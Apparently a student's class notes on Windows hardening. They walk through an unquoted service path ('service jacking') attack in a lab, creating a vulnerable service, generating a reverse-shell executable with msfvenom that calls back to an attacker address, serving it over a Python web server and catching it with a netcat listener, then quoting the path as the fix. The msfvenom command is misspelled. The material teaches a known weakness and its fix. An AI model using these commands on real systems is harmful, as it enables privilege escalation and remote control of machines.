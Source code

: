 



#### Assignment 1 


Here is a list of things to accomplish for Assignment 1 :


1. SetExecutionPolicy RemoteSigned
2. Remove TLS 1.0 
3. Remove 3DES
4. Add plenty of Pseudocode!
5. Use **Powershell** in order to write the *two* scripts


The report is a **Step-by-Step Walkthrough** to an audience that has a background in IT in general!




-------------------------------------------------------------------


# Services 




When you have a server, it would be nice to have RDP set up. You would have to install third-party services. and they are not all coded very well, with a lack of security at times.



if you type : 


		services


We would see a large number of services. He has a Razer service to control his devices. If you click on **Properties**, you would see where the .exe file is. 




We will also make our own vulnerable service. After disabling the Anti-virus, we will make a service with a *path lacking the quotes*




		sc create "Vulnerable Service" binpath= "C:\Program Files\service\binary files\real-program.exe" Displayname= "Vuln Service" start= auto




If we do not have the quotes, the command will iterate through each portion of the folder name, running every file before running the intended service. 



The attack is called a **Service Jacking**. 




We will run *msfvenom*, which will generate a reverse-shell for our intended target, which will call home to us. The firewalls wont block outgoing traffic. 


*msfvenom* is a part of **Metasploit** : 


		msfveqom -p windows/shell_reverse_tcp lhost=10.0.0.244 lport=2323 -f exe > binary.exe



So he would recommend running a *Python-based* Web Server on Kali Linux, so we can host the file. 

		python3 -m http.server 8080


After getting the file to the folder where the service is, we would type the following *netcat* command : 


		nc -lvnp 2323





#### How would we fix it ? 



We would issue the following command to fix this malicious service : 


		sc config "Vulnerable Service" binpath="\"C:\Program Files\service\binary files\real-program.exe\""














